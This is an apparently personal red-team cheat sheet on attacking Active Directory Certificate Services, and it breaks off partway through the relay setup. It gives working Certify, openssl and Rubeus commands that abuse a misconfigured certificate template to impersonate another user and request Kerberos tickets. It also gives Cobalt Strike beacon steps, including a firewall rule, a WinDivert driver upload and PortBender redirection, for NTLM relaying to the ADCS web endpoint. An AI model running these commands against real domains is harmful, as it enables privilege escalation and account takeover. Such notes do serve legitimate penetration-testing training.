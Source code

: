 # ADCS Notes

**Finding Certificate Authorities**

Tools: [Certify](https://github.com/GhostPack/Certify)

Search ADCS in a domain or forest
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

**Misconfigured Certificate Templates**

find vulnerable tickets
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
key parts to look into
1. the CA name
2. Template Name
3. msPKI-Certificate-Name-Flag
4. pkiextendedkeyusage
5. Enrollment Rights - see who can enroll here, look for groups you are in or if all domain users can

Abusing steps
1. Request a certificate for a user
2. copy and whole certificate and save it as cert.pem on linux
3. use openssl command to convert to pfx format
4. convert cert.pfx into a base64 string for Rubeus
5. make an asktgt req for the user using the cert
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:<user>
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /certificate:<base64> /password:pass123 /nowrap
```

**NTLM Relaying to ADCS HTTP Endpoints**

can't relay dc to adcs if running on same dc, but we can relay with a system having unconstrained delegation

steps:
1. portbender on unconstrained device capturing 445->8445
2. reverse port forward to forward traffic hitting port 8445 to the team server on port 445
3. a socks proxy for ntlmrelayx to send traffic back into the network
4. ntlmrelayx pointing to the certfnsh.asp page on the adcs server

```
on beacon:
powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow

cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
PortBender redirect 445 8445

```


